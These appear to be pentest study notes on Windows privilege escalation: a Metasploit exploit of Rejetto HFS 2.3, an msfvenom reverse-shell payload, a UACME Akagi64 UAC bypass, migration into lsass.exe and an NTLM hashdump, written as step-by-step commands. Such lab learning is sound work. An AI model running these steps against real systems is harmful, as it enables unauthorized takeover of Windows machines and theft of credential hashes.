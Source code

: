**Windows Kernel exploits**

- user mode, limited access
- kernel mode, highest level of access

### Bypassing UAC with UACME

- User Account Control
- Windows security feature
- can be bypassed

Pre-requisites to bypass UAC:

1. access to user Account
   that is part og the local administrators group on the windows target system
2. if UAC protection level is set below high, windows programs can be executed with elevated privileges without the user for confirmation
3. tools will vary by windows version

**Exploit UAC**
STEP 1: Getting user account

1.  nmap scan, identify
2.  (this is for rejetto file server 2.3)
3.  open msfconsole: `service postgresql start && msfconsole`
4.  search rejetto vuln: `serach rejetto`
5.  configure options then run
6.  som commands and actions: 1.`sysinfo`, 2.`pgrep explorer`, 3.`migrate <number you got from prev command>`,

**Privelege escalation:**
github repository for exploiting:https://github.com/hfiref0x/UACME
STEP 2: Privelege escalation

7. create a reaverseshell: `msfvenom -p windows/meterpreter/reverse_tcp LHOST=<your IP> LPORT=1234 -f exe > shell.exe`
8. set up listener, new msfconsole session: `msfconsole`
9. in msfvenom `use multi/handler`
10. payload: `set payload windows/meterpreter/reverse_tcp`
11. `set LHOST` , `set LPORT` <-- to port created in shell.exe, then hit `run`
12. IN THE WINDOWS ACCOUNT METERPRETER SESSION: navigate to C: `cd C:\\`
13. create Temp dir: `mkdir Temp` then `cd Temp`
14. Upload shell `upload shell.exe`
15. upload Akagai64(UAC Exploit): `upload /root/Desktop/tools/UACME/Akagi64.exe`
16. open shell session: `shell`
17. exploit method 23, should bet elevated privs: `.\Akagi64.exe 23 C:\Temp\shell.exe`
18. migrate to lsass.exe(for NT AUTHORITY\SYSTEM): list processes:`ps`, `migrate 688` <--PID number , when in folder(INFO):`C:\Windows\system32`
19. get hashdump NTLM hashdump: `hashdump`

### Privelege Escalation: Access Token Impersonation

- Privileges required for a successful impersonation attack:
  - SeAssignPrimaryToken
  * SeCreateToken
  - SeImpersonatePrivilage
